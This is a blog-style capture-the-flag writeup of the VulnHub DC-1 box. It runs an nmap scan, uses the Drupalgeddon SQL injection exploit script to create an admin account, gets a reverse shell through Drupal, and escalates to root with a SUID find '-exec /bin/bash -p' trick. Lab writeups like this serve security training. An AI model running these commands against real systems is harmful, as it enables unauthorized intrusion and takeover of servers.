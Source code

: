 ```yaml
---
layout: default
title : muzec - DC1 Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/118831579-e235ac80-b88d-11eb-83d1-1a595884c846.png)

Yet again today we be working on another OSCP like box DC1 On vulnhub you can grab a copy here [Download  DC1](https://www.vulnhub.com/entry/dc-1,292/) .

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Sun May 16 15:48:28 2021 as: nmap -sC -sV -oA nmap 172.16.109.134
Nmap scan report for 172.16.109.134
Host is up (0.00017s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33474/tcp6  status
|   100024  1          40386/udp6  status
|   100024  1          43432/tcp   status
|_  100024  1          51414/udp   status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 16 15:48:40 2021 -- 1 IP address (1 host up) scanned in 11.71 seconds
```

3 open ports interesting let check port 80 i can already see it running drupal 7 on the nmap scan probably easy lol so i quickly use `searchsploit drupal 7` to find exploit.

![image](https://user-images.githubusercontent.com/69868171/118833256-502ea380-b88f-11eb-81b7-e45434472872.png)

Seems we have some cool exploits for drupal 7 let try using `Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)` yes adding another admin user with the help of SQL Injection.

`python 34992.py -t http://172.16.109.134/ -u muzec -p muzec`

![image](https://user-images.githubusercontent.com/69868171/118016360-4b17a480-b323-11eb-9fcf-14de63f71ef2.png)

And user created let use it to log in .

![image](https://user-images.githubusercontent.com/69868171/118834458-3cd00800-b890-11eb-9501-485686e2ab54.png)

We are in now let try and get a reverse shell .

NOTE:- if you are having a problem getting a reverse kindly read my latest writeup on drupal reverse shell here [DroopyCTF Writeup](https://muzec0318.github.io/posts/Droopy.html) .

![image](https://user-images.githubusercontent.com/69868171/118835236-cb448980-b890-11eb-9727-422d1296b6c5.png)

Clicking on save give us back a reverse shell . 

![image](https://user-images.githubusercontent.com/69868171/118835583-22e2f500-b891-11eb-81da-2471ee310af1.png)

Now let spawn a TTY shell `python -c 'import pty; pty.spawn ("/bin/bash")'` .

![image](https://user-images.githubusercontent.com/69868171/118835813-532a9380-b891-11eb-850c-2036c9b0567e.png)


### Privilege Escalation

Checking for SUID permission that can lead to root `find / -perm -u=s -type f 2>/dev/null` and we have `/usr/bin/find` let check gtfobins .

![image](https://user-images.githubusercontent.com/69868171/118837290-a94c0680-b892-11eb-91ab-dfd0994d431f.png)


![image](https://user-images.githubusercontent.com/69868171/118837365-ba951300-b892-11eb-9e41-1d85ce7d0cb6.png)

And we have `/usr/bin/find . -exec /bin/bash -p \; -quit` running it give us root .

![image](https://user-images.githubusercontent.com/69868171/118837707-1790c900-b893-11eb-9086-4277127b3d2b.png)

Box rooted and we are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
